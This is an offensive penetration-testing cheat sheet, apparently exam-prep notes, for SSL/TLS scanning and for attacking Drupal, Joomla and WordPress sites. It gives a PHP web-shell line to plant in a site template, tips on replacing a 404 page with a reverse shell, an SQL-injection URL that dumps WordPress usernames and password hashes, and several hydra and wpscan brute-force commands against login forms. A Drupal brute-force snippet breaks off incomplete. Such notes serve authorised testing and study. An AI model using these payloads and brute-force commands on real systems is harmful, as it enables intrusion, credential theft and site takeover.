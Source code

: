 **SSL certificate testing**
https://www.ssllabs.com/ssltest/analyze.html
`sslscan --show-certificate --no-colour {address}:{port}`
`sslyze --regular --certinfo=full %s:%s > %s/%s_%s_sslyze" % (ip_address, port, BASE, ip_address, port)`

**TLS & SSL Testing**
 `./testssl.sh -e -E -f -p -y -Y -S -P -c -H -U $ip | aha > OUTPUT-FILE.html`

# Content Management System

 **Wordpress, Joomla, Drupal**

### Drupal
`droopescan scan drupal -u http://IP_ADDR:PORT`
`cmsmap -f D http://10.11.1.49`

### Drupal bruteforce attack
#crack the password of admin
site="192.168.230.147"
id=$(curl -s http://$site/user/|grep "form_build_id" |cut -d"\"" -f6)

### Joomla
`index.php?option=%component_name%&task=%task_value%`

## WordPress
https://www.hackingarticles.in/wordpress-penetration-testing-using-wpscan-metasploit/
https://github.com/wetw0rk/malicious-wordpress-plugin

**Shell**
- plugin
- adapt 404 page with msfvenom shell or php-reverse-shell
- put <?php system($_GET['cmd']); ?> in main template

**t=themes, p=plugins, u=users**
wpscan --url http://IP_ADDR --enumerate u,p,t --force --wp-content-dir wp-content
wpscan --url http://192.168.56.101/wordpress --passwords /usr/share/wordlists/fasttrack.txt --usernames username -t 25

-Use custom content directory ...
wpscan -u www.example.com --wp-content-dir custom-content

**WordPress Scan - WordPress security scanner**
`wpscan --url $ip/blog --proxy $ip:3129`

**Passwords**
`/wp-content/plugins/wp-forum/feed.php?topic=-4381+union+select+group_concat%28user_login,0x3a,user_pass%29+from+wp_users%23`

```shell
hydra -L fsocietyuniq -p test 192.168.90.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
hydra -l admin -P /usr/share/wordlists/rockyou.txt  10.11.1.251 http-post-form '/wp/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Incorrect password'
hydra -l root@localhost -P /usr/share/wordlists/dirb/big.txt 10.11.1.39 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-120&User=^USER^&Password=^PASS^:F=Login failed"

wpscan --url 10.11.1.251/wp --wordlist /root/Documents/oscp/files/rockyou.txt --username sean threads 50
```
